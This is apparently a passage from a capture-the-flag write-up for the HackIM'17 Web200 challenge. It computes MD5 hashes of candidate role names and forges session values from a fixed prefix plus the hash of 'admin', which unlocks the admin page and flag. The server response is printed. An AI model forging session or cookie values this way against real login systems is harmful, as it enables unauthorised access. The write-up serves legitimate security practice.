 ```
$ echo -n "absolute" | md5sum
dc4d53aa0d117d8b189b36d161af4e96  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803dc4d53aa0d117d8b189b36d161af4e96
```
$ echo -n "master" | md5sum
eb0a191797624dd3a48fa681d3061212  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803eb0a191797624dd3a48fa681d3061212
```
$ echo -n "superuser" | md5sum
0baea2f0ae20150db78f58cddac442a9 
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e7668030baea2f0ae20150db78f58cddac442a9
```
$ echo -n "super" | md5sum
1b3231655cebb7a1f783eddf27d254ca  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e7668031b3231655cebb7a1f783eddf27d254ca

An finally, for the string 'admin':
```
$ echo -n "admin" | md5sum
21232f297a57a5a743894a0e4a801fc3  -
```
u=351e76680321232f297a57a5a743894a0e4a801fc3 -> admin
r=351e76680321232f297a57a5a743894a0e4a801fc3 -> admin

We get the full access from the server and the value of the flag:
```
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Sun, 12 Feb 2017 01:38:11 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 342

<html>
<head>
  <title>HackIM'17 - Web200</title>
<link rel="stylesheet" href="css/home.css">
</head>
<body>
  <h1>HackIM'17 - Web200</h1>
<ul>
  <li>
    Home
  </li>
   <a href="logout.php"><li>
    Logout
  </li></a>

</ul>
<h1>Welcome admin user!</h1><h3>Congratulations! The flag is: bb6df1e39bd297a47ed0eeaea9cac7ee</h3></body>
</html>
```
The flag is: bb6df1e39bd297a47ed0eeaea9cac7ee
